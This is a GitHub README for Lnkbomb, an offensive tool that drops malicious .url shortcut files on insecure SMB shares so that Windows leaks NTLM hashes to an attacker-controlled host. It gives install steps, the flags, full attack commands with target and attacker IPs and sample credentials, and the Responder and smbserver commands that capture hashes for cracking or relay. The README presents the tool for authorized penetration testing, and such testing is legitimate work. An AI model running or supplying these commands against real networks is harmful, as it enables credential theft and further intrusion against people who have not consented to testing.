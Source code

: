 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/dev/images/example.png" />
</p>

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat, or relay them to a tool like ntlmrelayx for further exploitation.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

Version 2.0 is a total rebuild of the tool and uses the pysmb library, permitting unauthenticated and authenticated payload drops.

## Python Usage
Installing Lnkbomb

Note that the project works consistently in Windows. It may have issues in Linux.

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target IP address```

```-a, --attacker - Specifies the tester's attack machine IP address```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r payloadname.url)```

```-w, --windows - New command - required for setting appropriate ports for Windows shares```

```-l, --linux - New command - required for setting appropriate ports for Linux shares```

```-n, --netbios - New command - netbios name for targeted Windows machines must be included```

Examples of full commands include:

```python3 .\lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u themayor -p Password123! -n dc01 --windows```

```python3 .\lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u themayor -p Password123! -n dc01 --windows -r dicnwdsebl.url```

You will need to utilize a tool like Responder or smbserver to capture the NTLM hash.  
```responder -I eth0 -dwFP -v```

or

```smbserver.py . . -smb2support```


<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/dev/images/example2.png" />
</p>

### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  

I know it's .url shortcuts and not .lnk extensions. I do it to trigger you.
